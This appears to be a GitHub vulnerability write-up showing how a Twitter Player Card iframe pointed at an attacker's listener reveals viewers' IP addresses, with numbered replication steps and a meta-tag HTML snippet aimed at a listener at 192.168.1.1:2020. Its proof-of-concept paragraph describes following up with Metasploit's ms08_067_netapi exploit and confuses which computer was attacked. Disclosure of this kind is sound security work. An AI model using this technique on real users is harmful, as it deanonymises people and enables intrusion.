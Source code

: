 # Twitter Card Backdoor

## Summary

Twitter allows the embedding of videos in a tweet via [Player Cards](https://dev.twitter.com/docs/cards/types/player-card). The problem is in the playing method of the video: currently, it uses a sandbox (`iframe`)  to play the embedded video(s) even when this might be protected against [Cross-site scripting (XSS)](https://en.wikipedia.org/wiki/Cross-site_scripting), still being unsafe because it doesn't protect **HTTP Request Sender**  information such as the **IP Address, User-Agent, and the referer**.
> A lot of Twitter users used to use a VPN to keep these safe from Twitter himself, will they agreed to share them with 3rd-part and this 3rd-part could be anyone

The attacker can embed a link to a request logger or can listen to connections in order to get the IP address of the video viewer.   

## Replication Steps

#### Step 1: Adding the pertinent Twitter meta tags to your page
You need to add some Twitter specific meta tags to your page to enable Twitter Player Cards. 

|Name|Content|
|--- |--- |
|twitter:card|Type of Twitter card; Must be set to a value of “player”|
|twitter:title|The title of your content as it should appear in the card|
|twitter:site|The Twitter @username the card should be attributed to|
|twitter:description|Description of the content (optional)|
|twitter:player|Listener or Request Logger URL **Must be HTTPS URL**|
|twitter:player:width|Width of IFRAME specified in twitter:player in pixels|
|twitter:player:height|Height of IFRAME specified in twitter:player in pixels|
|twitter:image|Image to be displayed in place of the player on platforms that don’t support iframes or inline players; you should make this image the same dimensions as your player|

Here is a example with a listener in 192.168.1.1:2020:

```html
<meta name="twitter:card" content="player" />
<meta name="twitter:title" content="Twitter cards vulnerability" />
<meta name="twitter:description" content="Twitter cards vulnerability allows to get the video viewer IP, Listen to 192.168.1.1:2020 on your machine then play the video you will be surprised" />
<meta name="twitter:player" content="https://192.168.1.1:2020" />
<meta name="twitter:player:width" content="360" />
<meta name="twitter:player:height" content="203" />
<meta name="twitter:image" content="https://upload.wikimedia.org/wikipedia/de/thumb/9/9f/Twitter_bird_logo_2012.svg/154px-Twitter_bird_logo_2012.svg.png" />
```


----------


#### Step 2:  Launch your page


----------


#### Step 3: Validate your card using the Twitter Validator Tool:
Once you have added the meta tags and published the page, copy and paste the URL into the [Twitter Card Validator](https://cards-dev.twitter.com/validator) and then click **Preview Card**.

![F156985](https://cdn.rawgit.com/xc0d3rz/Abstract-jekyll/c690ee51/img/Screenshot_at_2017-02-02_23_41_50.png)

----------


#### Step 4: Request approval for whitelisting
If your domain has not been whitelisted by Twitter, the Player Cards will not appear. When validating the URL, a message will appear stating that the URL has not been whitelisted.


Click **Request Approval** to begin the approval process. You will be required to provide additional information about your domain. For more information on the approval process, see the [Twitter documentation](https://dev.twitter.com/cards/types/player/approval).

![F156986](https://cdn.rawgit.com/xc0d3rz/Abstract-jekyll/c690ee51/img/Screenshot_at_2017-02-02_23_49_24.png)


----------


#### Step 5: Share it on twitter
When the embedded video is played you might received the viewer(s) IP (I suggest to use a request logger) .

![F156990](https://cdn.rawgit.com/xc0d3rz/Abstract-jekyll/c690ee51/img/Screenshot_at_2017-02-02_23_52_28.png)


## Proof of Concept

I made a video as a proof of concept, testing the vulnerability on a Virtual Machine running on WINXP SP2 (**Computer B**).
The source code can be found at [poc.html](./poc.html)

I've hosted the page on a server, shared it on twitter and then played the embedded video in the the Virtual Machine. Eventually I got **B's ip address.** by listening to in the port **2020**  coming from **Computer A** to then attack **Computer B** with metasploit's `ms08_067_netapi` exploit gaining access to **Computer A**.
You can find the video [here](https://www.youtube.com/embed/0occxD9v11M).
